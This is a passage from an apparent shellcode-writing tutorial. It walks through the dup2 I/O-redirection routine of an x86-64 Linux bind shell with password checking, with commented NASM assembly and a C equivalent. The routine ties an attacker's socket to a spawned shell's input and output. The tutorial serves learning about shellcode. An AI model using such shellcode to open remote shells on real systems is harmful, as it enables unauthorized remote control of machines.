 <figcaption class="figure-caption">Routine for validating the password</figcaption>

### I/O Redirection

Before effectively spawning a shell, you need to redirect input, output, and errors too.

This way, when the attacker send some input to the TCP listener, data will be treated as input for the spawned shell. Same thing goes for output and errors.

You can achieve this type of redirection through the syscall `dup2`:

<figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/dup.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">dup(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a>

Follows the assembly code for this function:

```nasm
IO_Redirection:

    xor ecx, ecx
    mul rcx
    add ecx, 2

DuplicateFileDescriptor:

    ; 1st argument of dup2(), file descriptor of the client socket, should be unchanged (RDI)
    ; 2nd argument of dup2(): file descriptor to redirect: stdin/stdout/stderr
    ; in this case the value is stored inside RCX
    ; - 2 (sterr)
    ; - 1 (stdout)
    ; - 0 (stdin)
    push rcx
    
    ; syscall: dup2()
    push rdx
    pop rax
    add eax, 33

    ; 2nd argument of dup2(): file descriptor to redirect
    mov rsi, rcx

    ; call dup2()
    syscall

    pop rcx
    dec rcx
    jns DuplicateFileDescriptor
```

<figcaption class="figure-caption">Redirection of input, output, and errors</figcaption>

Overall, these routines can be converted to the C code listed below:

```cpp
void main(int argc, char* argv[])
{
    // ...
    
    dup2(create_socket_fd, 2);
    dup2(create_socket_fd, 1);
    dup2(create_socket_fd, 0);
    
    // ...
}
```
